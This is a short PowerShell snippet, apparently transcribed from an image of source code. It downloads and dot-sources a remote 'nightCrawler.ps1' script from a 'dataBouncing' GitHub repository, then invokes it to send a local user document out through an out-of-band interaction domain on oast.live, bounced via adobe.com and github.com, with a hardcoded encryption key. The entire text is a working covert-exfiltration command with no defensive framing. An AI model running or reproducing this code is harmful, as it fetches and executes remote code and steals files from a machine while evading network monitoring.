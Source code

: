 # Define variables
$scriptUrl  = 'https://raw.githubusercontent.com/Unit-259/dataBouncing/main/nightCrawler.ps1'
$localPath  = Join-Path $env:TEMP 'nightCrawler.ps1'

# Download the script file
Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing -OutFile $localPath

# Dot-source the downloaded script to import its functions
. $localPath

Invoke-NightCrawler -Identifier "Req1" -Domain "d1lm10amq2v1ec0f0ep0tqm1z9cyiszkh.oast.live" -Urls "adobe.com","github.com" -FilePath "C:\Users\ENBD_USER\Documents\Normal.txt" -EncryptionEnabled -EncryptionKey "Encryption@123"
